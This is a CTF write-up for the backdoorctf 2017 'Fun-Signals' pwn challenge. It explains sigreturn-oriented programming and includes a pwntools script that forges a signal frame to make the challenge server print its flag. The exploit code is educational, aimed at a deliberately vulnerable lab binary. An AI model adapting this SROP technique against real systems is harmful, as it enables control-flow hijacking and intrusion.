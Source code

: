 ```yaml
---
title: backdoorctf 2017 - Fun-Signals Writeup
date: '2017-09-24'
lastmod: '2023-07-03T19:19:24+02:00'
categories:
- writeup
- backdoorctf17
tags:
- pwn
- sigreturn
authors:
- andreafioraldi
---
```


This binary has a very small portion of code.

Analize it in IDA:

<img class="img-responsive" src="/backdoorctf17/funsignals-1.png" alt="IDA screenshot showing disassembled binary code with syscalls to read() and rt_sigreturn()" width="603" height="260">

The first syscall is a read (rax = 0) of 1024 bytes in the stack.

The second is rt_sigreturn.

For a l337 h4xx0r sigreturn means SROP. For me it means [Wikipedia](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming).

I learnt that we can control the program flow like with rop using sigreturn and the associated structure on the stack.

This structure contains the context of the signal handler.

So writing this structure on the stack (with read) we have the complete control of all registers.

A good choice is to prepare the registers for a write to the stdout of the flag.

The syscall gadget under `int 3` is a perfect target for rip.

Wait, how is composed a signal frame? I don't know, but pwnlib does.

```python
from pwn import *

context.arch = "amd64"

frame = SigreturnFrame()
frame.rax = constants.SYS_write
frame.rdi = constants.STDOUT_FILENO
frame.rsi = 0x10000023 #flag string address
frame.rdx = 50 #read size
frame.rsp = 0xABADCAFE
frame.rip = 0x10000015 #syscall gadget

#p = process("./player_bin")
p = remote("163.172.176.29", 9034)
p.send(str(frame))

print p.recvall()
```
